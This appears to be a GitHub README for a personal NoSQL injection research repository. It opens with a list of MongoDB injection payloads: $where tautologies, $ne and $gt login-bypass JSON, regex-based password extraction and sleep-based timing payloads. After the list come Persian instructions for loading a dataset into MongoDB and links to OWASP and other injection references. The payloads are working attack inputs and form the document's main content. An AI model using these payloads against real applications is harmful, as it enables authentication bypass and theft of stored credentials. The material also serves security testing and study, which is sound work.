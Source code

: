 # Injection
This is my injection research area

# Example:

Number one:
```
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
|| 1==1//
|| 1==1%00
}, { password : /.*/ }
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';sleep(5000);
';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
```

# How to work
## Import dataset to MongoDB 
* file name Set_DataToMongo

این کد پایتون انجام کارهای زیر را انجام می‌دهد:

ابتدا به پایگاه داده مانگو دی‌بی متصل می‌شود.
سپس اطلاعات را از فایل dataset.json می‌خواند.
در نهایت اطلاعات را به صورت multirow در پایگاه داده مانگو دی‌بی ذخیره می‌کند.
برای اجرای این کد در PyCharm می‌توانید مراحل زیر را انجام دهید:

کد را در PyCharm باز کنید.
از طریق منوی Run گزینه Run 'main' را انتخاب کنید.
پس از اجرای کد، پیام "Data inserted into MongoDB successfully!" نمایش داده خواهد شد.
همچنین اطمینان حاصل کنید که پایگاه داده مانگو دی‌بی در حال اجرا باشد و فایل dataset.json در همان مسیر قرار داشته باشد.


# Reference
1. [Wiki NOSQL](https://en.wikipedia.org/wiki/NoSQL)
2. [NOSQL-DataBase](http://nosql-database.org/)
3. [GO NoSQLi](https://github.com/Charlie-belmer/nosqli)
4. [NoSQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
5. [Testing for NoSQLi](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.6-Testing_for_NoSQL_Injection)
6. [Injection MongoDB](https://zanon.io/posts/nosql-injection-in-mongodb/)
7. [nosql-injections-classique-blind](https://www.dailysecurity.fr/nosql-injections-classique-blind/)
8. [Python NOSQLi username and password](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/tree/master)
9. [Wordlist Mongo](https://github.com/cr0hn/nosqlinjection_wordlists/tree/master)
10. [NoSQLi Lab](https://github.com/digininja/nosqlilab)
11. [Fault-Injection-Dataset](https://github.com/dessertlab/Fault-Injection-Dataset)
12. [Synthetic-dataset-for-SQL-Injection](https://github.com/lsiddiqsunny/Synthetic-dataset-for-SQL-Injection)
13. [Injection attacks in apps with NoSQL Backends](https://github.com/riyazwalikar/injection-attacks-nosql-talk)
14. [400 dataset analysis no-sql dataset](https://github.com/capnmav77/No-SQL_Gen/blob/master/DatasetAnalytics.ipynb)

